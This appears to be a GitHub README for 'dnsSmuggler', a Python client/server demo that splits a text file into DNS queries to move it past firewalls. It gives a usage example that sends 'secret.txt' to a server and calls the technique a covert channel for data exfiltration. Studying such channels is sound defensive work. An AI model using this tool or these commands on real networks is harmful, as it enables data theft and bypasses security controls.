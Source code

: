 # dnsSmuggler

## Overview

dnsSmuggler is a Python project demonstrating data smuggling over DNS (Domain Name System) queries. It consists of a client script and a server script. The client script reads a text file, breaks it into smaller chunks, and sends these chunks as DNS queries to a server. The server receives these DNS queries, reassembles the chunks, and reconstructs the original text file.

## Working Principle

The project works as follows:

1. **Client Side:**
   - The client reads the contents of a text file specified by the user.
   - It breaks the file content into smaller chunks to fit within the payload size limit of DNS queries.
   - Each chunk is sent as a separate DNS query to the specified DNS server.

2. **Server Side:**
   - The server listens for incoming DNS queries.
   - It receives the DNS queries containing the data chunks.
   - The server reassembles the chunks into the original file content.

## Usage

### Prerequisites

- Python 3.x
- Ensure that both client and server machines have access to DNS server.

### Running the Client

```bash
python client.py <file_path> <dns_server>
```
   - <file_path>: Path to the text file to be smuggled.
   - <dns_server>: DNS server's IP address or domain name.

### Running the Server
```bash
python server.py
```

### Example
```bash
python client.py secret.txt 192.168.1.1
```
```bash
python server.py
```
### Diagram
```lua
       +------------+                 +-------------+                +-------------+
       |    Client  |                 |   Firewall  |                |    Server   |
       +------------+                 +-------------+                +-------------+
            |                                 |                              |
            |           DNS Query             |                              |
            | ----------------------------->  |                              |
            |                                 |                              |
            |                                 |      DNS Query (Forwarded)   |
            |                                 | -------------------------->  |
            |                                 |                              |

```
In this scenario, DNS smuggling leverages the inherent trust in DNS traffic to bypass network firewalls. Firewalls typically allow DNS traffic to pass through unhindered, making it an effective covert channel for data exfiltration or bypassing network restrictions.
